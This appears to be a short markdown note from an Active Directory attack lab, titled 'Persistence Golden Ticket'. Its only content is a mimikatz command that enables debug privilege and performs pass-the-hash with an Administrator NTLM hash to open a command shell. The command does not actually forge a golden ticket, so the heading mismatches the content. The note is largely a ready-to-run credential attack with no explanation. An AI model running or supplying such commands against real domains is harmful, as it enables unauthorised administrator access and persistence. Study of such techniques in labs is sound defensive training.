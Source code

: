 # Persistence Golden Ticket

![GOlden Ticket](persistence_golden_ticket.png)


## Index:
  1. [Attack](#attack)

## Attack

```
C:\AD\Tools\mimikatz.exe "privilege::debug" "sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:Administrator /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:cmd" "exit"
```
